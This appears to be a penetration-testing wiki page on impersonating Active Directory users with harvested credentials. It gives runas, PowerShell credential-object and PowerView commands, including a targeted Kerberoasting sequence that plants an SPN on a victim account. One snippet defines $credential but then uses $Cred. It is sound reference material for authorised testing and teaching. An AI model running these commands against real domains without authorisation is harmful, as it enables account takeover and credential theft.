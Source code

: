 # Impersonation

When credentials are found (through [dumping](dumping/) or [cracking](cracking.md) for instance), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

* **LM or NT password hash**: [pass-the-hash](broken-reference)
* **RC4 Kerberos key (i.e. NT hash)**: [overpass-the-hash](../kerberos/ptk.md)
* **non-RC4 Kerberos key (i.e. DES or AES)**: [pass-the-key](../kerberos/ptk.md) (alias for overpass-the-hash)
* **Kerberos ticket**: [pass-the-ticket](broken-reference)
* **plaintext password**: the techniques listed below

{% tabs %}
{% tab title="RunAs" %}
RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.
{% endtab %}

{% tab title="Powershell" %}
In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the `-Credential` argument in the next command.

```bash
# Credential object creation (prompted)
$credential = Get-Credential

# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Start-Process Notepad.exe -Credential $credential
```
{% endtab %}

{% tab title="PowerView" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

Here is an example for [targeted Kerberoasting](../dacl/targeted-kerberoasting.md).

```bash
# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endtab %}
{% endtabs %}

[SharpLdapWhoami](https://github.com/bugch3ck/SharpLdapWhoami) can then be used to make sure the user is correctly impersonated. A standard whoami command will only return the local user rights, not the users impersonated during remote operations (like LDAP queries to the DC).

```powershell
.\SharpLdapWhoami.exe
.\SharpLdapWhoami.exe /method:kerberos /all
```
